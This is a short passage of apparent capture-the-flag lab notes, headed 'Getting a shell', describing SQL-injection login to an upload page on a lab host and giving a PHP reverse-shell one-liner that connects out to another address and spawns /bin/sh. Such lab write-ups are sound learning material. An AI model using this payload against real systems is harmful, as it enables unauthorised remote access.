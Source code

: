 # Getting a shell

http://10.10.10.185/upload.php
After SQLi login, we can acess the upload.php page
![[Pasted image 20211204215220.png]]

![[Pasted image 20211204215449.png]]

![[Pasted image 20211204224111.png]]

payload
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
![[Pasted image 20211204224132.png]]



![[Pasted image 20211204224520.png]]